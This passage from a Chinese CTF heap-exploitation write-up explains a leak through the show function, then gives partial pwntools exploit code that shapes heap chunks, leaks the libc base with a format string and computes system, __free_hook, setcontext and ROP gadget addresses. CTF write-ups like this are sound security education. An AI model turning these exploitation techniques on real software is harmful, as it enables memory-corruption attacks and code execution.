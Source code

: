    ![image-20240922170723956](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409221707049.png)

4. show函数也只有一次机会，这里可以用来泄漏堆地址：

   ![image-20240922170957120](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409221709192.png)



### 利用：

1. 申请三个chunk后，利用第一个chunk修改第二个chunk的size字段，将其改大，覆盖到第三个chunk的next字段：

   这里要申请chunk的话需要先将之前申请的chunk释放掉，将指针清空，然后再申请才会调用到__libc_malloc：

   ```c
   
   p.sendlineafter(b"end ?",str(89).encode())
   
   add(0xf8,b"aaa") #1
   free()      #2
   add(0x100,b"aaa")   #3
   free()
   add(0x200,b"a"*0x50 + p64(0x170) + p64(0x200-0x50)) # 方便显示堆块
   free()
   
   # 利用格式化字符串泄漏libc地址
   out()
   p.sendlineafter(b"end ?",str(78).encode())
   p.sendlineafter(b"reason",b"%a")
   
   p.recvuntil(b"0x0.")
   libc_base = int(p.recv(13).decode(),16) - 0x3EC7E3
   success("libc_base   ==> " + hex(libc_base))
   
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 53
   system_addr        = libc_base + libc.sym["system"]
   free_hook_addr     = libc_base+libc.sym["__free_hook"]
   IO_switch_to_wget_mode_addr = libc_base+libc.sym["_IO_switch_to_wget_mode"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("setcontext_addr==>"    + hex(setcontext_addr))
   success("IO_switch_to_wget_mode_addr==>"    + hex(IO_switch_to_wget_mode_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base
   print(hex(read_addr))
   # #pause()
   
   pop_rdi_ret=libc_base + 0x000000000002164f
   pop_rdx_ret=libc_base + 0x0000000000001b96
   pop_rax_ret=libc_base + 0x000000000001b500
   pop_rsi_ret=libc_base + 0x0000000000023a6a
   ret= libc_base + 0x0000000000023a6a + 1
   
   # pop_rdi_ret=libc_base + 0x00000000000215bf
   # pop_rdx_ret=libc_base + 0x0000000000001b96
   # pop_rax_ret=libc_base + 0x0000000000043ae8
   # pop_rsi_ret=libc_base + 0x0000000000023eea
   # ret= libc_base + 0x0000000000023eea + 1
   
   # 修改size字段
   ```